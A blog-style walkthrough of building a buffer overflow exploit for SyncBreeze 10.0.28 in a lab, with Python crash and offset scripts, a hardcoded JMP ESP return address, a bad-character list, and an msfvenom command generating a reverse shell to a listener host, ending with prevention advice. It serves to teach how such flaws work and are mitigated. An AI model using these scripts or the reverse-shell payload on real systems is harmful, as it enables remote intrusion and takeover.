





We’ve all heard the term *“script kiddie”*—someone who can run an exploit but doesn’t truly understand how or why it works. They may know *what* a vulnerability does, but not *why* it exists or how it could be fixed.

For a long time, I wanted to move beyond that surface-level understanding. I wanted to read documentation, reverse engineer behavior, and build an exploit from the ground up rather than copying one blindly.  

In this post, I walk through how I built a working exploit for **SyncBreeze v10.0.28**, an intentionally vulnerable and outdated application. The goal is not just exploitation, but understanding: what went wrong, how control was gained, and what could have prevented it.

This walkthrough is written to be approachable for non-technical readers while still showing the real mechanics behind a memory corruption vulnerability. 

## Why SyncBreeze?

The version of SyncBreeze used here is nearly a decade old. As is often the case with legacy software, modern security protections were either absent or disabled.

A publicly verified exploit already exists for this version, which made it a useful reference point:
- https://www.exploit-db.com/exploits/42928

Rather than using it directly, I used it as a jumping off point to understand the core of the vulnerability, to cut time finding and enumerating the vulnerable buffer overflow endpoint myself. 

## Lab Setup

To reproduce and analyze the issue safely, I set up a small lab environment:
- **Windows 10 (32-bit)** virtual machine  
- **SyncBreeze 10.0.28**  
- **Process Hacker** (for inspecting memory and loaded modules)  
- **WinDbg** (for debugging crashes)

## Understanding the Vulnerability

At its core, this vulnerability is a **buffer overflow**.

A buffer overflow happens when a program allocates a fixed amount of memory for input but does not properly enforce size limits. When more data is written than the buffer can hold, the extra data overwrites adjacent memory.

In this case, user-controlled input overwrites the **instruction pointer**—the value that tells the CPU what code to execute next. Once that pointer is under attacker control, arbitrary code execution becomes possible.



To reliably exploit this condition, three things are required:
1. Determine exactly how much input is needed to overwrite the instruction pointer  
2. Find a reliable way to redirect execution to attacker-controlled data  
3. Ensure the payload avoids characters that break execution

## Triggering the Crash

To identify where the overflow occurs, I wrote a simple Python script that sends an oversized HTTP request to the vulnerable login endpoint.

```python
#!/usr/bin/python
import socket
import sys

try:    
        server = sys.argv[1]
        port = 80 
        size = 800
        inputBuffer = b"A" * size
        content = b"username=" + inputBuffer + b"&password=A"
        
        
        buffer = b"POST /login HTTP/1.1\r\n"
        buffer += b"Host: " + server.encode() + b"\r\n"
        buffer += b"User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
        buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
        buffer += b"Accept-Language: en-US,en;q=0.5\r\n"
        buffer += b"Referer: http://192.168.0.148/login\r\n"
        buffer += b"Connection: close\r\n"
        buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
        buffer += b"Content-Length: "+ str(len(content)).encode() + b"\r\n"
        buffer += b"\r\n"
        buffer += content
        print("Sending evil buffer...")
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((server, port))
        s.send(buffer)
        s.close()
        print("Done!")
except socket.error:
        print("Could not connect!")
```

Initially, the payload consisted of 800 repeated characters. This reliably caused the application to crash, which confirmed the presence of a buffer overflow.


(Aftermath of the python script execution)

However, simply crashing the program isn’t enough. To exploit it precisely, we need to know *exactly* how many bytes are required to overwrite the instruction pointer.  

## Finding the Exact Offset

To do this, I replaced the repeated characters with a unique pattern generated by Metasploit tools:
- `msf-pattern_create`
- `msf-pattern_offset`

The process works like this:
1. Send a unique pattern instead of repeating characters  

2. Observe the value placed into the instruction pointer during the crash  
3. Use that value to calculate the exact offset


This revealed that **780 bytes** were required to reach the instruction pointer, followed by **4 bytes** that fully control it.

With this information, the input could be structured precisely instead of guessing. The code snippet below shows the changes made to illustrate this

```python
try:
	server = sys.argv[1]
	port = 80
	size = 800
	filler = b"A" * 780 # Filler to trigger the overflow
	eip = b"B" * 4      # The 4 bytes that land on the EIP
	buf = b"C" * 16     # 16 filler bytes for debugger purposes
	inputBuffer = filler + eip + buf
```
## Controlling Execution Flow

Once control over the instruction pointer was confirmed, the next step was redirecting execution to attacker-supplied code. In this case, we can generate shellcode, and store it in another register (ESP). But, the issue then becomes, how do we get the instruction pointer to execute our shellcode stored in the register?

A common and reliable technique in older applications is using a `JMP ESP` instruction. This causes execution to jump where we've stored our malicious shellcode.

Because SyncBreeze does **not** use modern protections like:
- Address Space Layout Randomization (ASLR)  
- Data Execution Prevention (DEP)  

it was possible to reference a static memory address containing this instruction.

Using Process Hacker, I located a suitable `JMP ESP` instruction in a loaded DLL file that had no memory protections enabled, `gdi32full.dll`.



From the picture, we can see exactly where in memory the `jmp esp` opcode resides: `7565518a`. And since there are no memory protections enabled, this address remains static in every execution of the program. 

Now, the final layout of code for the python script should start to make sense:

```python
filler = b"A" * 780       # Trigger the overflow
eip = b"\x9a\x51\x65\x75" # gdi32full.dll "jmp esp" opcode
offset = b"C" * 4         # 4 bytes to fill in order to reach ESP
shellcode = "shellcode"   # We will place our shellcode here
```

## Avoiding Bad Characters

We've solved 2 of the 3 main problems, but we still have 1 more issue to resolve to exploit the system fully.

Not all byte values are safe in shellcode for execution. Certain characters are interpreted as delimiters or control characters and can corrupt the payload.

Through testing, the following bytes were identified as unsafe:

```
0x0A - Line feed
0x0D - Carriage Return
0x25 - %
0x26 - &
0x2B - +
0x3D - =
```

For readability, I've shown which bytes correspond to what Operations/ASCII characters. It should make sense that we can't use `%&+=`, since the vulnerable endpoint is a web application login form. Those characters could mangle and disrupt proper execution. 

All shellcode used in the exploit was generated with these characters explicitly excluded.

## Generating Shellcode

To generate a reverse shell payload while avoiding bad characters, I used `msfvenom` with an encoder:
- Payload: `windows/shell_reverse_tcp`  
- Encoder: `x86/shikata_ga_nai`  

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.148 LPORT=443 -f python –e x86/shikata_ga_nai -b "\x00\x0aD\x0d\x25\x26\x2b\x3d" EXITFUNC=thread
```

An encoder obfuscates the shellcode so it avoids restricted characters and decodes itself safely at runtime.

`EXITFUNC=thread` was passed to avoid the program from completely crashing if something happens to our reverse shell.

## Final Exploit Behavior

When the exploit is executed:
1. The oversized request overflows the buffer  
2. The instruction pointer is overwritten with a `JMP ESP` address  
3. Execution jumps to attacker-controlled memory  
4. The payload decodes and launches a reverse shell  

From an attacker’s perspective, this results in full remote code execution under the privileges of the vulnerable service.


## What Went Wrong (and How to Prevent It)

The most obvious mitigation is simple: **do not run outdated software**. This vulnerability has been publicly documented for years.

From a development perspective, several failures contributed to this exploit. Since I do not have access to the source code of the application, I cannot pinpoint exactly where the developers went wrong. However, buffer overflow exploits occur when:
- Unbounded functions such as `gets`, `strcpy`, and `sprintf` are used
- There is no validation of input length
- No reasonable limits on fields like usernames
  
### Missing Platform Protections

Even if an overflow occurs, modern systems can still prevent exploitation. SyncBreeze lacked:
- ASLR  
- DEP  
- Stack canaries  
- Control-flow integrity checks  

With these protections enabled, reliably redirecting execution would have been significantly more difficult or impossible.

## Closing Thoughts


This exploit isn’t interesting because it’s new; it isn’t. It’s interesting because it shows how *small development decisions* and *missing safeguards* compound into full system compromise.

Understanding these mechanics matters not just for offensive security, but for anyone responsible for building, approving, or maintaining software systems.

Exploitation is not magic. It’s the predictable result of assumptions, shortcuts, and missing defenses.

That’s the real takeaway.